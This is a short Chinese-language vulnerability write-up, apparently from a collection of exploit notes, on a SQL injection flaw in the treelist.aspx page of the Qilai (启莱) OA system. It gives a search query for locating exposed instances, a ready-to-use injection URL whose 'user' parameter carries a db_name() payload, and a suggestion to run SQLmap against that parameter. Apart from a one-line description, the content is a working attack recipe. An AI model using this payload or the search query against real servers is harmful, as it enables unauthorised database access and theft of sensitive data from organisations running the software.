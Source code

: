 # 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下



![qilai-1-1](./images/qilai-1-1.png)

存在SQL注入的文件为 treelist.aspx

```plain
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-1-2](./images/qilai-1-2.png)

使用SQLmap对参数 user 进行注入

![qilai-1-3](./images/qilai-1-3.png)

